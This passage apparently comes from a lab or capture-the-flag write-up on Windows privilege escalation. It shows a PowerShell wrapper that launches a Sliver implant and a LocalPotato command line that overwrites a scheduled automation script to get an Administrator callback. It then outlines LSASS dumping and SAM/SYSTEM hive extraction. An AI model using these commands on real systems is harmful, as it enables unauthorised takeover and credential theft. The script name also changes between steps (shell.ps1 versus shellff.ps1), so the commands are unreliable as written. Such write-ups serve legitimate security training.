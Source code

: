 1. Prepare the exploit code 


    There are several ways to proceed here. For example, we could use the staged PowerShell loader we leveraged earlier, but that would require careful handling of port forwarding, listener configuration, and IP assignments for each command.

    Instead, I chose to use the **non-staged Sliver implant** (`sliver.exe`) we had previously deployed during the lecture upload exploit. Since it’s already uploaded and functioning, we don’t need to create a new payload. We simply need a PowerShell script that runs the executable, which will guarantee privileged access.

    Create `shell.ps1`: 
        ```powershell
        C:\tmp\sliver.exe
        ```
2. Upload this PowerShell file to `C:\tmp` on the WS-3
3. Upload the `LocalPotato` exploit binary to  `C:\tmp`
3. Execute the exploit
    ```powershell
    C:\tmp\LocalPotato.exe -i C:\tmp\shellff.ps1 -o "\Program Files\Automation-Scripts\wpad-cache-cleaner.ps1"
    ```
    ![](https://cdn-images-1.medium.com/max/1000/1*k8ruzE8sEWsIGzvXgMQZTQ.png)

4. Wait for the callback

    Within a few minutes, you should receive a session callback with Administrator privileges.
    ![](https://cdn-images-1.medium.com/max/1000/1*B6mdRt0Y9JT3oSOwEm6vqQ.png)

### Internal scanning

![](https://cdn-images-1.medium.com/max/1000/1*EP5oPNuCtBLiJM9fTAkQ0Q.png)

we are now have **local Administrator** on the host. However, many high-impact privileges such as `SeDebugPrivilege`, `SeTakeOwnershipPrivilege`, and `SeBackupPrivilege` are disabled. The `SeEnableDelegationPrivilege` is also disabled, meaning we can’t directly abuse token delegation.

That said, `SeImpersonatePrivilege` is **enabled**, which can be exploited for SYSTEM access if necessary.With token impersonation attacks using tools like `PrintSpoofer`, `RoguePotato`, or `GodPotato`, we could escalate to SYSTEM or other privileged accounts.

But our position still allows full local control including dumping **LSASS**, backing up and extracting the **SAM** and **SYSTEM** registry hives to obtain password hashes, and then moving into Active Directory enumeration to hunt for escalation paths. From here, focus on credential dumping and Kerberos-based attacks to pivot toward Domain Admin.

![](https://cdn-images-1.medium.com/max/1000/1*2Nw9uDduNtWr3DEcFAyOzg.png)

### Backing up SAM and SYSTEM Registry Hives 

As a member of the **Administrators** group, we can back up the SAM and SYSTEM hives for offline credential extraction.
